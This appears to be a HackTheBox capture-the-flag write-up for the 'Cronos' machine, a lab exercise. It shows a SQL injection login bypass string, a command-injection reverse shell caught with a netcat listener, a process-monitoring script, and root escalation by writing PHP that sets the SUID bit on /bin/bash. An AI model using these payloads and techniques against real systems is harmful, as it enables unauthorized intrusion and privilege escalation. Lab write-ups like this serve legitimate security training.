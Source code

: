 ```yaml
---
title: "Cronos"
date: 2023-06-26T12:51:31+02:00
tags: ["linux","lfi","procmon","artisan"]
categories: ["hackthebox"]
author: "0x0Pwn"
image: /HTB/Cronos.png
description: "This write-up will be about the HackTheBox machine called Cronos. "
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: true
description: "A linux room that is vulnerable a remote code execution throw url."
canonicalURL: "https://canonical.url/to/page"
disableHLJS: true # to disable highlightjs
disableShare: false
disableHLJS: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
cover:
    image: "<image path/url>" # image path/url
    alt: "<alt text>" # alt text
    caption: "<text>" # display caption under cover
    relative: false # when using page bundles set this to true
    hidden: true # only hide on current single page
editPost:
    URL: "https://github.com/pwndside/pwndside.github.io/content"
    Text: "Suggest Changes" # edit text
    appendFilePath: true # to append file path to Edit link
---
```


## Room Information

- Room name: Cronos
- Difficulty level: Medium
- Room link: https://app.hackthebox.com/machines/Cronos

![Untitled](/HTB/Cronos.png)

## Tools Used

- Nmap
- procmon.sh
- digg
- nslookup

## Port Scanning

Other room, other port scan.

![Untitled](/HTB/nmap-cronos.png)

I found 3 open ports, 53(dns's), 80(web), 22(ssh). Let's focus on the website and the dns.

## Enumeration

The only enumeration I done is dns enumeration, with `nslookup` and `dig axfr cronos.htb @10.10.10.13`

![Untitled](/HTB/nslookup-cronos.png)

![Untitled](/HTB/dig-cronos.png)


## Exploiting

The first thing I did, was putting the dns's in the /etc/hosts and access the website `http://admin.cronos.htb`,
and I saw a login page :)

![Untitled](/HTB/web-cronos.png) 

I tried the first combinations I always do and surprise, I pass it with a simple sql injection `admin'or 1=1-- -`...

The web is so incredible, there are two options, the first consist to send a ping to a ip where you can put
whatever you want, and de second option consist at the same but using traceroute ... 

So I first tried to send mi a ping and receive it with `tcpdump -i tun0 icmp -n` and I received it :). Next step
is to send me a reverse shell:

![Untitled](/HTB/burpsuite-cronos.png)

and listening on my pc

```bash
 nc -nlvp 443
```
![Untitled](/HTB/www-data-cronos.png)

The machine is pawned !!

## TTY Treatment

```bash
 cd /dev/shm
 touch procmon.sh 
 chmod +x procmon.sh
 nano procmon.sh 
```

## Gaining an Initial Foothold

We are in now inside, with a user called **www-data**

- Usual commands I always do:
	
	```bash
	 sudo -l
	 cat /etc/crontab
	 find / -perm -4000 2>/dev/null
	 find / -type -d -writable
	 bash procmon.sh
	 lsb_release -a
	 uname -a
	 id
	 getcap -r / 2>/dev/null
	 ...
	```
Code of procmon.sh:

```bash
 #!/bin/bash

 old_process=$(ps -eo user,command | awk '!/procmon|kworker/ {print}')

 while true; do
        new_process=$(ps -eo user,command | awk '!/procmon|kworker/ {print}')
        diff <(echo "$old_process") <(echo "$new_process") | grep "[\>]" | grep -vE "procmon|awk|kworker"
        old_process=$new_process
 done

```

Using **procmon.sh** and **find / -type -d -writable** I found that user root
is running **/var/www/larevel/artisan**, which is a program in php, and we have 
write/read permissions. So let's modify them to include this:

```bash
 <?php
	system("chmod u+s /bin/bash");
 ?>
```
Then, I did `bash -p`, and I'm root !!

![Untitled](/HTB/root-cronos.png)


## Lessons Learned

- What insights did you gain from the room?
    
    I learned more about cron tasks, using procmon.sh
    
- Were there any novel tools or techniques employed?
    
    The use of procmon.sh it's not new but I improve my privilege escalation metods I think.
